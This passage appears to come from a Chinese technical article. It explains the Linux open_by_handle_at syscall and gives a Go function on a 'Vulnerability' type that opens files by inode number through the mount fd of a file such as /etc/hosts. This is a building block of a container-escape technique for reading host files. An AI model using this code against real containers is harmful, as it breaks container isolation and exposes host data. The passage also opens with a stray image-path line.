 int open_by_handle_at(int mount_fd, struct file_handle *handle, int flags);  
- mount_fd: 给定1个文件，将在文件所属的挂载点所属文件系统下查找和打开目标文件句柄  
  
- handle: 包含要打开文件的inode number的文件句柄  
  
- flags: 打开文件的选项  
  
- 返回打开的fd  
  
其中文件句柄结构体如下，其中 handle_type 似乎并无要求，可以是任意值，(可能取决于文件系统的实现)  
  
```
struct file_handle {
__u32 handle_bytes;
int handle_type;
/* file identifier */
unsigned char f_handle[];
};
```  
  
  
go 实现：  
  
```
/*
GetFd
inode: 欲打开文件的inode number
ref: 文件路径，open_by_handle_at 根据挂载点在其所属文件系统下打开文件句柄
return: 打开目标文件，返回fd
*/
func (v Vulnerability) GetFd(inode int, ref string) (fd int, err error) {
hostReference, err := syscall.Open(ref, syscall.O_RDONLY, 0)
if err != nil {
return
}
defer syscall.Close(hostReference)
inodeBytes := make([]byte, 8)
// 将 inode 转换为小端序的字节数组
binary.LittleEndian.PutUint64(inodeBytes, uint64(inode))
handle := unix.NewFileHandle(1, inodeBytes)
fd, err = unix.OpenByHandleAt(hostReference, handle, unix.O_RDONLY)
if err != nil {
return
}
return
}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/00GYaClAoOoLicicKhY2KCpwMXmflWClIErOYnjJiaSXvgNQOvibLI9MsNbUg8m3qqYzvmPicQv7a6DXEPZKYXeNlTAqUdCruVzRc/640?wx_fmt=svg&from=appmsg "")  
  
**reference**  
  
open_by_handle_at 系统调用的 mount_fd 参数通常为   
/etc/hosts 的fd, 由 k8s 或 docker 等容器组件挂载进容器内。  
  
但有时也需要通过该参数调整inode所属的文件系统。  
  